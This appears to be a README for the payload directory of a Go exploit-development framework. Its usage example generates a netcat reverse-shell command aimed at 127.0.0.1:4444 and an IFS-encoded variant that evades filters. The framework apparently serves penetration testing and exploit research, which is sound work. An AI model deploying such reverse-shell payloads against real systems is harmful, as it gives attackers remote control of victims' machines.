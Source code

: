 # Payloads

Put common payloads in the `payload` directory.

## Structure

* `reverse.go` for reverse payloads
* `bind.go` for bind payloads
* `encode.go` for encoders

## Usage

```go
package main

import (
	"fmt"

	"github.com/vulncheck-oss/go-exploit/payload"
)

func main() {
	p := payload.ReverseShellNetcatGaping("127.0.0.1", 4444)

	fmt.Println(p)
	fmt.Println(payload.EncodeCommandIFS(p))
}
```
